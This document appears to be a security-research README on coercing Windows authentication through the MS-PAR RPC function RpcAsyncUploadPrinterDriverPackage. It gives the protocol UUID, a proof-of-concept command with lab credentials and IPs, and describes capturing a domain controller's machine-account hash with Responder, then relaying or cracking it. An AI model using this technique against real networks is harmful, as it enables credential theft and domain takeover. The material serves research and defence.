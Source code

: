 # MS-PAR - Remote call to RpcAsyncUploadPrinterDriverPackage (opnum 63)

## Summary

+ **Protocol**: [[MS-PAR]: Print System Asynchronous Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/695e3f9a-f83f-479a-82d9-ba260497c2d0)

+ **Protocol UUID**: 76f03f96-cdfd-44fc-a22c-64950a001209

+ **Protocol version**: 1.0

+ **SMB Named pipe**: ``

+ **Function name**: [`RpcAsyncUploadPrinterDriverPackage`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/cdb3054e-db6e-4d08-ab8c-2282375b1f8c)

+ **Function operation number**: `63`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-PAR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/695e3f9a-f83f-479a-82d9-ba260497c2d0) protocol (with uuid `76f03f96-cdfd-44fc-a22c-64950a001209` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-PAR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/695e3f9a-f83f-479a-82d9-ba260497c2d0) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-PAR]: Print System Asynchronous Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/695e3f9a-f83f-479a-82d9-ba260497c2d0) and allows to call RPC functions of this protocol. We will then call the remote [`RpcAsyncUploadPrinterDriverPackage`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/cdb3054e-db6e-4d08-ab8c-2282375b1f8c) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
RpcAsyncUploadPrinterDriverPackage('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT RpcAsyncUploadPrinterDriverPackage(
   [in] handle_t hRemoteBinding,
   [in, string, unique] const wchar_t* pszServer,
   [in, string] const wchar_t* pszInfPath,
   [in, string] const wchar_t* pszEnvironment,
   [in] DWORD dwFlags,
   [in, out, unique, size_is(*pcchDestInfPath)] 
     wchar_t* pszDestInfPath,
   [in, out] DWORD* pcchDestInfPath
 );
```

## References

+ Documentation of protocol [MS-PAR]: Print System Asynchronous Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/695e3f9a-f83f-479a-82d9-ba260497c2d0

+ Documentation of function `RpcAsyncUploadPrinterDriverPackage`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/cdb3054e-db6e-4d08-ab8c-2282375b1f8c